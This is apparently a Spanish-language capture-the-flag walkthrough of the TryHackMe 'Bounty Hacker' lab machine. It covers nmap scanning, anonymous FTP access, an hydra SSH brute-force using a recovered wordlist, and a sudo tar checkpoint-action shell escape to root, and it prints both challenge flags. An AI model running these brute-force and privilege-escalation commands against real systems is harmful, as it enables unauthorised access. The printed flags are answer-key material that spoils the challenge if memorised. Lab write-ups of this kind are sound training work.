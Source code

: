 
# Summary
- IP: 10.10.1.131
- Ports: 21,22,80
- OS: Linux (Ubuntu Xenial)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	-  80 -> Apache httpd 2.4.18

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.1.131 -oG allPorts
```


- Escaneo profundo de puertos:

```
$sudo nmap -p21,22,80 -sCV 10.10.1.131 -oN targeted
```


- Escaneo de página web:

```
$sudo nmap --script http-enum -p80 10.10.1.131 -oN webScan
```


- Podemos acceder via FTP como anonymous, encontramos dos archivos:

```
$ftp 10.10.1.131
```


- Un archivo contiene lo que parece ser un diccionario; analizamos la página web, pero no encontramos nada relevante.
- Con la información actual, hacemos un ataque de fuerza bruta con hydra para intentar logearnos como usuario "lin" (nombre encontrado en los recursos anteriormente enumerados) utilizando el diccionario descargado por ftp:

```
$hydra -l lin -P /home/dante/Tryhackme/Bounty_Hacker/content/locks.txt ssh://10.10.1.131
```

- Encontramos una credencial, accedemos a la máquina como lin:

```
$ssh lin@10.10.1.131
```


- Leemos la primera flag:
# USER FLAG: THM{CR1M3_SyNd1C4T3}

# ESCALANDO PRIVILEGIOS:

-  Buscamos binarios permitidos ejecutar como sudoer:

```
$sudo -l
```


- Podemos ejecutar el binario "tar", con una búsqueda en gtfobins encontramos la siguiente forma de escalar privilegios:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Leemos la flag de root:

# ROOT FLAG: THM{80UN7Y_h4cK3r}
